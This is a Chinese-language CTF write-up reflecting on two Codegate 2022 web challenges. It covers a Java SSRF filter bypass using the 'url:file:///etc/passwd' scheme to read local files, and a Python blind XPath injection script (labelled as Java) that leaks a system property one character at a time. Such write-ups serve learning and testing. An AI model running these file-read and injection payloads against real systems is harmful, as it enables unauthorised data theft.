




# Codegate2022反思

## BabyFirst

核心逻辑在这里



简单说来，匹配`[]`当中的字符，之后对其访问，是个ssrf但是不能用file开头，这里很明显能想到用其他协议，Java中URLConnection支持的协议可以在`sun.net.www.protocol`看到，支持的有：`file ftp mailto http https jar netdoc gopher`，比如`netdoc:///etc/passwd`，但是这里环境是jdk11，已经删除了`netdoc`

这里解决方法出现在p牛的知识星球--->` url:file:///etc/passwd`




## myBlog

首先在`DockerFile`文件当中发现flag的输出在一个properties文件夹



可利用的漏洞点，读文章的这个地方可以有Xpath注入



后面我搜了下读配置文件函数没搞到就放弃了，现在想起来真的傻，以后不能这样了，直接放exp，注意就是你登录以后发一个帖子内容是`test`，记录下其id我这里是1，然后盲注即可

```java
import requests
from string import ascii_lowercase, digits

SESSION = {'JSESSIONID':'5D31583806832F60CE7133EEEA94EA6E'}
flag = ''

for i in range(34+len('codegate2022')):
    for x in ascii_lowercase+digits+'{}':
        conn = requests.get('http://url/blog/read?idx=1%27%20and%20starts-with(system-property(%27flag%27),%27'+flag+x+'%27)%20and%271%27=%271', cookies=SESSION)
        r1 = conn.text
        if 'test' in r1:
            flag += x
            print(flag)
            break
```

